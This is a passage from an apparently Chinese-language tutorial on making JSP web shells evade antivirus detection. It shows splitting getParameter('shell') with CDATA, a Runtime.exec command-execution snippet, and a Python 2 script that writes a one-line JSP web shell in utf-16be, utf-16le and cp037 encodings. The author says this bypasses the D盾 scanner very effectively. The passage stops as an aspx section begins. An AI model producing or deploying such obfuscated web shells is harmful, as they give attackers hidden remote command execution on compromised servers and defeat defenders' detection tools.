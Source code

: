 在XML元素里，<和&是非法的，遇到<解析器会把该字符解释为新元素的开始，遇到&解析器会把该字符解释为字符实体化编码的开始。

但是我们有时候有需要在jspx里添加js代码用到大量的<和&字符，因此可以将脚本代码定义为CDATA。

CDATA部分内容会被解析器忽略。  
格式：<!\[CDATA\[xxxxxxxxxxxxxxxxxxx\]\]>  
例如  
String cmd = request.getPar<!\[CDATA\[ameter\]\]>("shell");  
此时ameter依旧会与getPar拼接成为getParameter

#### 2、实体化编码

```
if (cmd !=null){  
        Process child = Runtime.getRuntime().exec(cmd);  
        InputStream in = child.getInputStream();
```

这里实体化编码先知渲染体现不出来

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUeVmzNYUctUWxT0hGgdiaUXHxlnA0IxHgOX5JicTricSfEn8ToOibliakViaA/640?wx_fmt=png)

#### 3、利用java支持其他编码格式来进行绕过

```
#python2  
charset = "utf-8"  
data = '''<%Runtime.getRuntime().exec(request.getParameter("i"));%>'''.format(charset=charset)

f16be = open('utf-16be.jsp','wb')  
f16be.write('<%@ page contentType="charset=utf-16be" %>')  
f16be.write(data.encode('utf-16be'))

f16le = open('utf-16le.jsp','wb')  
f16le.write('<jsp:directive.page contentType="charset=utf-16le"/>')  
f16le.write(data.encode('utf-16le'))

fcp037 = open('cp037.jsp','wb')  
fcp037.write(data.encode('cp037'))  
fcp037.write('<%@ page contentType="charset=cp037"/>')


```

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUAZwH9CWqUhuic0frAmicvtoVXom9d0h9iaCf9nVK1Zic0jwwWWZxibQWE3w/640?wx_fmt=png)

可以看到对于D盾的免杀效果还是非常好的。  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUZ9d18gvQVmzN6ImeIaTicjoVaTzCiaicdErVDehAHLeJA3UA5RWesC80Q/640?wx_fmt=png)

aspx的免杀
-------

* * *

aspx免杀的方式相对于PHP和java的较少，这里列出5种方式来bypass进行免杀
